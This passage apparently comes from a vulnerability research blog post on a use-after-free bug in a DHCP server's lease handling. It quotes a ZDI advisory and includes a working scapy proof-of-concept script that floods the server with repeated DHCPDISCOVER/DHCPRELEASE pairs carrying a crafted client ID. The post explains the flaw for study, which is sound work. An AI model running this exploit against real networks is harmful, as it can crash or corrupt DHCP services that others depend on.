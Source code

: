 Here, `lease -> uid_len` is valid and `lease -> uid` is used after it has already been freed.

## PoC Construction

When the majority of this post was written on July 27, 2022, ZDI's new post has not been published, and I was still unaware of the root cause and a better PoC.

The PoC below was finished on April 21, 2021. 

```
#!/usr/bin/env python3

from scapy.all import *

#SRC_MAC = bytes('\x00\x01\x02\x03\x04\x06'.encode())
SRC_MAC = bytes([0,1,2,3,4,5])
REQUESTED_ADDR = '192.168.2.129'
SVR_ADDR = '192.168.2.254'
DST_ADDR = '255.255.255.255'
CLIENT_ID = '\x00'+'A'*32

def send_dhcp_discover(txid):
    dhcp_discover = Ether(src=SRC_MAC, dst='ff:ff:ff:ff:ff:ff') /\
                    IP(src='0.0.0.0', dst='255.255.255.255') /\
                    UDP(sport=68, dport=67) /\
                    BOOTP(ciaddr=REQUESTED_ADDR, chaddr=SRC_MAC, xid=txid) /\
                    DHCP(options=[('message-type', 'discover'), ('requested_addr', REQUESTED_ADDR), ('client_id', CLIENT_ID), 'end'])
    return dhcp_discover

def send_dhcp_release(txid):
    dhcp_release = Ether(src=SRC_MAC, dst='ff:ff:ff:ff:ff:ff') /\
                    IP(src=REQUESTED_ADDR, dst=SVR_ADDR) /\
                    UDP(sport=68, dport=67) /\
                    BOOTP(ciaddr=REQUESTED_ADDR, chaddr=SRC_MAC, xid=txid) /\
                    DHCP(options=[('message-type', 'release'), ('requested_addr', REQUESTED_ADDR), ('server_id', SVR_ADDR), ('client_id', CLIENT_ID), 'end'])
    return dhcp_release

txid = 456789
dhcp_discover = send_dhcp_discover(txid)
dhcp_release = send_dhcp_release(txid)

while True:
    sendp(dhcp_discover)
    sendp(dhcp_release)
```

In the original ZDI post, 

> In the vulnerable condition, meaning when a DHCPDISCOVER message followed by a DHCPRELEASE message is repeatedly received by the server, the respective uid fields of the source and destination lease structures actually point to the same memory location. 
